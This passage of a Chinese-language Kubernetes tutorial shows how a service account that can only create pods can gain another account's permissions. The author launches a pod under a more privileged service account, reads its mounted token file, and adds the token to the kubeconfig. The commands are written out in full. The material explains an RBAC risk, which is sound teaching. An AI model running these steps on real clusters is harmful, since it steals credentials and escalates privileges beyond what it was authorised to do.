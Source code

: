 
测试权限：

```
# 能list pod但不能list deployment

~$ kl --context=createpod get pod
NAME   READY   STATUS    RESTARTS   AGE
......
~$ kl --context=createpod get deployments
Error from server (Forbidden): deployments.apps is forbidden: User "system:serviceaccount:default:createpod" cannot list resource "deployments" in API group "apps" in the namespace "default"
```

现在我们尝试使用create pod来突破权限来list deployments.

```
vi busy.yaml
# 注意配置serviceAccountName: listdeployments
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: busy
  name: busy
spec:
  serviceAccountName: listdeployments
  containers:
  - image: busybox
    name: busy
    args:
    - sh
    - -c
    - "sleep 1d"
    resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}


~$ kl apply -f busy.yaml
pod/busy created

# connect to pod
~$ kl exec busy -it -- sh
/ # cat /var/run/secrets/kubernetes.io/serviceaccount/token
...... # 可以看到token是可以获取到的


# 我们离开pod然后记下这个token
~$ TOKEN=$(kl exec busy -it -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
# 然后同样的方法配置到kubeconfig中去
~$ kl config set-credentials listdeployments --token=$TOKEN
User "listdeployments" set.
~$ kl config set-context listdeployments --cluster kubernetes --user listdeployments
Context "listdeployments" created.
```
